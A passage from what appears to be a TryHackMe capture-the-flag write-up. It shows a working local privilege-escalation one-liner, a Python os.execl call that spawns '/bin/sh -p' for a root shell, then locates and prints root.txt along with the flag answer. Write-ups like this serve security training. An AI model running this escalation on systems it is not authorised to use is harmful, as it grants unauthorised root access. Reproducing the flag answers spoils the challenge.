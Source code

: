 ![10](https://github.com/Knign/Write-ups/assets/110326359/ac92d807-5b9d-40cc-8d37-9f917357a732)

- We have to use the selected script with the `/usr/bin/python` interpreter.
```
$ /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
root
```
- We have successfully escalated our privilege to `root`.
### No answer needed

&nbsp;

### root.txt
- Let's find the `root.txt` file.
```
find / -name root.txt 2>/dev/null 
/root/root.txt
```
- All we have to do now is `cat` the file.
```
cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```
### Answer
```
THM{pr1v1l3g3_3sc4l4t10n}
```
